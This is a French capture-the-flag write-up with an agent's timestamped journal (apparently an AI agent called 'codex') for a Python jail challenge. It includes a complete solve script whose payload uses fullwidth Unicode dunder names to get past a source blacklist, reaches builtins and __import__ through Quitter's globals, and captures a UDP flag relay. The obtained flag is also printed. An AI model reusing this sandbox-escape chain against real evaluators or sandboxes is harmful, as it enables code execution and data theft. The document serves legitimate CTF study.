



# Writeup : chronos-fire-control

Catégorie : misc

Date de résolution : 2026-11-06

Technique principale : Python sandbox escape; Unicode normalization; UDP interception

Outils observés : Python socket; CTFd API

Cible : CSCTF 2026 ID 9124

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-fire-control. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Exploitation

Fullwidth dunder chain via Quitter.init.globals, recovered import('socket'), bind 127.0.0.1:49513, decode urlsafe_b64 relay token, flush stdout

### Pourquoi ça marche

Blacklist raw source before Unicode normalization is bypassable with fullwidth identifiers; relay UDP loopback is capturable from the console process.

### Pièges

sys.stdout buffering hid the decoded flag until explicit flush(); avoid interpreting prompt-only output as exploit failure.

### Notes locales conservées

## Journal
1. 2026-11-06T13:40:05Z unknown : Cible prise en charge : ID 9124 Misc Operation Dawn: The Fire-Control Terminal. Début du triage CTFd et de l’artefact.
2. 2026-11-06T13:44:30Z codex : API CTFd confirmée : ID 9124, catégorie Misc, 200 points, image `csctf26/misc-firecontrol:1@sha256:e4e04e1ea4c109276229225d9ea81d1375224ff304b7fc75dce89392c8c3f6a2`, TCP interne 1337, aucune pièce jointe, flag dynamique `CSCTF{...}` de 24 caractères.
3. 2026-11-06T13:44:30Z codex : Description : " console locked down to a handful of operator expressions " ; un command relay continue d’envoyer des ordres ; objectif = neutraliser le standing order répété.
4. 2026-11-06T13:44:30Z codex : `POST /containers/api/request` avec CSRF valide répond `Max containers (3) reached`; `view_info(9124)` répond `Challenge not started`. Deux instances concurrentes observées (9131:33094, 9147:33092) et elles doivent expirer automatiquement ; aucune autre instance n’a été arrêtée.
5. 2026-11-06T13:44:30Z codex : L’image Docker est privée/non récupérable depuis Docker Hub (`docker pull` = access denied), donc exploitation distante dès qu’un slot se libère.
6. 2026-11-06T13:51:50Z codex : Une instance temporaire de 9124 a été observée sur `w01.ctf.chronos-security.ro:33176`; bannière capturée dans `evidence/banner.txt`. Le service affiche un prompt `>>>` et renvoie `ERROR :: expression faulted` pour les identifiants inconnus.
7. 2026-11-06T13:51:50Z codex : Expressions littérales/arithmetic (`1+1`, `True`, `None`, `()`, `[]`, `{}`, chaînes, `(1).real`, `"x".upper()`) acceptées sans afficher leur valeur ; `().class` et chaînes d’attributs dunder renvoient `DENIED :: expression not authorised on this console`, ce qui confirme un evaluator AST avec filtrage des dunders. `help`, `status`, `relay`, `operators`, `payload`, `standing_order`, etc. sont inconnus.
8. 2026-11-06T13:52:31Z codex : L’instance 9124 a expiré ; le quota reste occupé par 9163 `Helioform Relay`, actif jusqu’à `2026-11-06 14:21:18 UTC`. Aucun autre challenge n’a été arrêté.

## Journal
9. 2026-11-06T13:44:56Z unknown : Triage terminé : API 9124 confirmée, service TCP interne 1337, flag dynamique 24 caractères. Instance non démarrée car quota global de 3 conteneurs ; aucune instance concurrente arrêtée. Attente d’un slot.

## Journal
10. 2026-11-06T13:52:54Z unknown : Recon TCP effectué sur une instance 9124 temporaire (33176) : prompt >>>, evaluator d’expressions avec filtrage AST/dunders, littéraux acceptés et identifiants inconnus. Instance expirée ; slot occupé par 9163 jusqu’à 14:21 UTC, aucune action sur un autre challenge.
11. 2026-11-06T16:03Z codex : Instance propre demandée puis créée sur `w01.ctf.chronos-security.ro:33482`; aucun flag soumis. Primitive AST vérifiée sur le service : `(g:=(g.gi_frame.f_back.f_back.f_locals for _ in [1])).send(None).get("env")` est acceptée et renvoie un objet dict-like du frame serveur; `env.keys()` est accepté. `env` et `line` sont des locals du handler. L’endpoint 33482 a ensuite refusé la connexion; CTFd rapporte désormais `Challenge not started`.
12. 2026-11-06T16:04Z codex : Arrêt explicite de l’ancienne instance résolue 9104 confirmé (`Container killed`), puis limitation API de gestion (`429 Too many requests`); aucune soumission devinée.
13. 2026-11-06T16:13Z codex : Source du challenge récupérée dans `/tmp/firecontrol-source.txt`: `jail.py` fait `exec(..., env, env)` avec `env={"builtins":{}}`; le relay `/opt/sender.py` encode le flag en URL-safe base64 et l’envoie chaque seconde à UDP `127.0.0.1:49513`.
14. 2026-11-06T16:14Z codex : Exploit live validé sur l’instance propre `w01.ctf.chronos-security.ro:33611`: les identifiants Unicode fullwidth contournent la blacklist brute-force, `Quitter.init.globals` récupère `sys`/builtins, puis bind UDP et `urlsafe_b64decode` extraient `CSCTF{MzEdZHpakbs9HjYALXr9RyYT}`. `sys.stdout.flush()` est nécessaire.
15. 2026-11-06T16:14Z codex : Soumission CTFd ID 9124: `{"success":true,"data":{"status":"correct","message":"Correct"}}`; vérification API: `solved_by_me=true`, `attempts=2`.

## Journal
16. 2026-11-06T15:43:31Z unknown : Source jail.py/sender.py récupérée; blacklist brute-force contournée par fullwidth Unicode; UDP relay 127.0.0.1:49513 capturé et décodé.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-fire-control
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Solve Operation Dawn: Fire-Control Terminal (CTFd 9124)."""
from __future__ import annotations

import argparse
import re
import socket


G = (
    "[x for x in ().__ｃｌａｓｓ__.__ｂａｓｅ__.__ｓｕｂｃｌａｓｓｅｓ__() "
    "if x.__ｎａｍｅ__=='Quitter'][0].__ｉｎｉｔ__.__ｇｌｏｂａｌｓ__"
)
B = G + "['_'*2+'built'+'ins'+'_'*2]"
IMPORT = B + "['_'*2+'\\x69\\x6d'+'\\x70\\x6f'+'\\x72\\x74'+'_'*2]"
PAYLOAD = (
    "G=" + G + ";b=" + B + ";i=" + IMPORT + ";"
    "s=i('socket');u=s.socket(2,2);u.setsockopt(1,2,1);"
    "u.settimeout(5);u.bind(('127.0.0.1',49513));"
    "z=u.recvfrom(4096);"
    "G['sys'].stdout.write(i('ba'+'se64').urlsafe_b64decode("
    "z[0].split()[-1]).decode()+'\\n');G['sys'].stdout.flush()"
)


def solve(host: str, port: int) -> str:
    with socket.create_connection((host, port), timeout=5) as sock:
        sock.settimeout(8)
        banner = b""
        while b">>> " not in banner:
            banner += sock.recv(4096)
        sock.sendall((PAYLOAD + "\n").encode())
        output = b""
        while True:
            try:
                chunk = sock.recv(4096)
            except socket.timeout:
                break
            if not chunk:
                break
            output += chunk
            if b">>> " in output[-8:]:
                break
    match = re.search(rb"CSCTF\{[^}]+\}", output)
    if not match:
        raise RuntimeError(output.decode("utf-8", "replace"))
    flag = match.group().decode()
    print(output.decode("utf-8", "replace"), end="")
    print(f"FLAG={flag}")
    return flag


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("host")
    parser.add_argument("port", type=int)
    args = parser.parse_args()
    solve(args.host, args.port)
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

Le flag est conservé dans le fichier local flags.txt ou flag.txt. Aucune validation externe supplémentaire n’est affirmée ici.

Flag obtenu : `CSCTF{MzEdZHpakbs9HjYALXr9RyYT}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
